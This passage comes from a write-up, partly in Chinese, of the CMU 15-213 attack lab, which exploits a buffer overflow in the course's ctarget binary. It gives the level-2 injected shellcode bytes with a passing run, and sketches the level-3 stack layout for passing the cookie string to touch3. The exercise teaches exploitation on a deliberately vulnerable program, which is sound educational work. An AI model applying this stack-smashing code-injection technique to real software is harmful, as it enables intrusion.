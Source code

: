```text
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

```shell
niebelungen@ubuntu:~/Desktop/target1$ ./hex2raw < test.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

## phase_3

```c
void touch3(char *sval){
    vlevel=3;
    if(hexmatch(cookie,sval)){
        printf("Touch3!: You called touch3(\"%s\")\n",sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n",sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val,char *sval){
    char cbuf[110];
    char *s = cbuf+random()%100;
    sprintf(s,"%.8x",val);
    return strncmp(sval,s,9) == 0;
}
```

这里我们需要调用`touch3`，需要将存放cookie字符串的地址作为参数。我们将字符串写在栈上，然后将地址放入rdi，然后调用`touch3`。cookie转为ASCII字符：

```shell
pwndbg> print /x "59b997fa"
$1 = {0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, 0x0}
```

栈的结构：

```text
|mov cookie_addr,rdi|
|ret	touch3		|
|padding			|
|shellcode_addr		|
|cookie				|	
```
